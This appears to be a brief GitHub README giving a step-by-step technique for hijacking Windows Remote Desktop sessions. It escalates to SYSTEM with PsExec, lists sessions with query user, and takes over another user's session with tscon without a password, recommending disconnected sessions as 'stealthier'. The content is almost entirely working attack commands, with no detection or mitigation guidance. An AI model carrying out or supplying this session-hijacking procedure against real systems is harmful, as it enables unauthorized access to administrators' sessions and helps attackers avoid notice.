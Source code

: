 ### When an administrator uses Remote Desktop to connect to a machine and closes RDP client instead of logging off, his session will remain open on the server INDEFINITELY!

### If you have SYSTEM privileges on Windows Server 2016 and earlier, you can take over any existing RDP session without requiring a password.

#### 1) 

    cmd.exe (as administrator)

#### 2) 

    PsExec64.exe -s cmd.exe

#### 3) 

    query user

#### 4) Takeover sessions with disc state (stealthier)

#### 

    tscon SESSION_NUM /dest:SESSION_NAME
